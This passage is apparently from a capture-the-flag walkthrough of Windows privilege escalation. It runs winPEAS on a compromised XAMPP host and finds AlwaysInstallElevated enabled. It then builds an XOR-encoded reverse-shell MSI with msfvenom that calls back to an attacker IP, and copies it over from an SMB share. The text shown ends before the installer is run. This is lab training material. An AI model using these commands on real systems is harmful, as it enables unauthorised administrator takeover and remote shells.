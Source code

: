 ```
08/24/2017  04:00 AM            26,644 profile.jpg
05/25/2021  11:05 AM                36 pwnersec.php
05/25/2021  04:18 PM         1,678,336 winPEASx64.exe
               7 File(s)      1,769,492 bytes
               2 Dir(s)   3,987,992,576 bytes free
```

Now just run the binary.

```
C:\xampp\htdocs\omrs\images>winPEASx64.exe
```

This will produce a pretty large output. You can save the output on a file and transfer it to your local box for analysing.

However, the main part where we might be interested in is :

```
[+] Checking AlwaysInstallElevated
   [?]  https://book.hacktricks.xyz/windows/windows-local-privilege-escalation#alwaysinstallelevated
    AlwaysInstallElevated set to 1 in HKLM!
    AlwaysInstallElevated set to 1 in HKCU!
```

We see that the `AlwaysInstallElevated` is set to 1. This means we can install a MSI file with elevated privileges as `administrator`. This might be a way to get administrator on the system.

First, let us create a msi package that will give us a reverse shell.

```
┌──(root💀nehal)-[~]
└─# msfvenom --platform windows --arch x64 --payload windows/x64/shell_reverse_tcp LHOST=10.10.14.15 LPORT=9001 --encoder x64/xor --iterations 9 --format msi --out pwnersec.msiFound 1 compatible encoders
Attempting to encode payload with 9 iterations of x64/xor
x64/xor succeeded with size 503 (iteration=0)
x64/xor succeeded with size 543 (iteration=1)
x64/xor succeeded with size 583 (iteration=2)
x64/xor succeeded with size 623 (iteration=3)
x64/xor succeeded with size 663 (iteration=4)
x64/xor succeeded with size 703 (iteration=5)
x64/xor succeeded with size 743 (iteration=6)
x64/xor succeeded with size 783 (iteration=7)
x64/xor succeeded with size 823 (iteration=8)
x64/xor chosen with final size 823
Payload size: 823 bytes
Final size of msi file: 159744 bytes
Saved as: pwnersec.msi
```

Now copy the file to remote box.

```
C:\xampp\htdocs\omrs\images>copy \\10.10.14.15\PSEC\pwnersec.msi
copy \\10.10.14.15\PSEC\pwnersec.msi
        1 file(s) copied.
```
